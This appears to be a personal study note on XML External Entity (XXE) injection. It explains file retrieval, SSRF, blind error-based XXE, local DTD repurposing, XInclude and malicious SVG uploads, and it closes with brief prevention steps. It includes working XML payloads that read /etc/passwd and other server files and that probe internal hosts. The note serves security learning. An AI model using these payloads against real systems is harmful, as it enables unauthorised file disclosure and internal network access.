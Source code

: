 
### General Notes

> [[XML]] eXternal Entity Injection.

> Allows attacker to play with the application processing of XML data.
> Allows attacker to view files on server, and interact with the back-end or external systems.
> XXE attacks can be escalated to [[SSRF]] attacks.

> This arises become some applications use XML format to transmit data between server and browser.
> Applications use [[Application Programming Interface (API)]]s to process XML data server-side.

> The external XML entity whose definition is loaded from outside the document they are created can have this value changed, creating the attack.

---

### Retrieving Files

> To perform an XXE Injection to retrieve files: 
1. Modify or add a `DOCTYPE` element that contains an external entity with the path to the file.
2. Edit the data value that is returned in the response in the application to be able to view the file contents.
``` XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
//somewhere in the application 
<> &ext; </>
```
> Somewhere in the application call on the external XML entity to view the file contents.

---

### [[SSRF]] 

> Similar to the Retrieving Files attack, but instead of specifying a path, we specify a URL we want the server to access.

```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal.vulnerable-website.com" > ]>
```
> Causes the backend to make [[HTTP]] request to the given URL within the internal system.

> And then call it somewhere using `&ext;` to view the response of the HTTP request.

---

### Blind XXE

> Happens when the application is vulnerable to XXE injection but doesn't return any values within the application response.

##### 1. Error Messages

> Triggering error messages can be used to detect these vulnerabilities.
> These error messages will be customized to return the required files in the response.
> An example of such a payload in an external DTD.
```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
```
> Creating the dynamic parameter entity `error` uses `&#x25;` instead of `%`, the [[Web Encoding]] version.

1.  Create an [[XML]] parameter entity called `file` that contains the contents of the file `/etc/passwd`.
2.  Create an [[XML]] parameter entity called `eval`. In is another parameter entity called `error`.
3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.

> This only works in external DTDs. Will not work in a normal `DOCTYPE` internal DTD.
> This is because having a parameter entity within the definition of another parameter entity is not tolerated by parsers.

> Therefore, we need to call on this payload using an external reference XML entity where the vulnerability is.
```XMl
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "URL" > %ext;]>
```
> Where `URL` is the location of the external DTD containing the payload.

##### 2. Repurposing a Local DTD

> Finding loopholes in XML language specification.
> When a document has both internal and external DTDs, then we can redefine entities in the local DTD that are already declared in the external DTD.
> This relaxes the restriction on parameter entity definitions within each other. (error messages problem).

> We can then use the error message technique within an internal DTD.
> We redefine an entity declared in the external DTD and declare it as an XML paramater entity.
> The external DTD, is loaded from a file on the server.

> We invoke a DTD file on the system, and using it to redefine an existing entity to create an error with sensitive data leaked.

```XML
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % custom_entity ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

1. Given an external DTD at location `/usr/local/app/schema.dtd` that has an entity called `custom_entity`.
2. We redefine the `custom_entity` to contain the error message payload as in the error message section.
3. We use the [[Web Encoding]] for special characters in recursive definitions of entities.
4. Finally, we call the `local_dtd` entity which triggers the error message.

> To locate the file and entity that we are going to replace, we can enumerate the files using error messages.

> An example of an existing file in linux GNOME desktop environments is `/usr/share/yelp/dtd/docbookx.dtd`.
> Testing for its presence.
```XML
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
%local_dtd; 
]>
```

> Once we obtain the file, we can view it and then look for entities we can replace.
> Systems that include DTDs are usually open source, so we can find them on the internet.

---

### Finding XXE in Hidden Areas

##### 1. `XInclude`

> Some data recieved by the server is embedded into an [[XML]] document and then parsed.
> A normal XXE attack can't be done as we cannot define or modify an XML document.

> `XInclude` allows an XML document to be built from a sub-document.
> `XInclude` can be placed in any data value in an XML document.
> To perform the attack, first reference `XInclude`, and then give it the path of the file that required.
```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

##### 2. Attacks via File Upload

> Some apps allow users to upload files that are processed on the server.
> Common file formats use [[XML]] or have some [[XML]], like `DOCX` and `SVG`.
> Malicious files can then be uploaded.

``` XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

<text font-size="16" x="0" y="16">&xxe;</text>

</svg>
```
> What this does is that creates an XML document and adds an entity `xxe` with the contents of the file `/etc/hostname`.
> Then, it creates an `svg` image with some properties and the required attributes.
> It then adds text inside the `svg` image, and its value is the contents of the file.

##### 3. Modified Content Type

> Can reach hidden XXE attack surface by submitting XML in requests that can tolerate adding XML.
> Do this by changing the `content-type` header.

```
Content-Type: text/xml
```

---

### Preventing XXE

> XML happens because the applications XML parser supports dangerous features, so to prevent attacks is to disable these features.

* Disable resolution of any external entity.
* Disable support for `XInclude`.

---
